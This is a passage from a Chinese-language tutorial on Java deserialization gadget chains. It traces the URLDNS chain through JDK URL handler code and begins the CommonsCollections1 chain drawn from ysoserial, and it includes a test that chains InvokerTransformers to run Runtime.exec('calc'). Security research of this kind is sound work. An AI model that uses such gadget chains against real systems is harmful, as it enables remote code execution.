         // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }

继续跟进java.net.URLStreamHandler#getHostAddress，如下所示，调用了 `InetAddress.getByName(host)` ，至此整个利用链完毕：

    protected synchronized InetAddress getHostAddress(URL u) {
        if (u.hostAddress != null)
            return u.hostAddress;

        String host = u.getHost();
        if (host == null || host.equals("")) {
            return null;
        } else {
            try {
                u.hostAddress = InetAddress.getByName(host);
            } catch (UnknownHostException ex) {
                return null;
            } catch (SecurityException se) {
                return null;
            }
        }
        return u.hostAddress;
    }

### CC1
研究环境准备：

- JDK Version<=JDK8u66
- commons-collections 3.1

为了便于理解，先抽出ysoserial中的片段进行分析，首先抽出主要逻辑，如下，LazyMap进行get操作的时候，会触发Transformer操作，即可执行命令：

    @Test
    public void test5(){
        // 测试一下ChainedTransformer利用
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        });
        HashMap<Object, Object> hashMap = new HashMap<>();

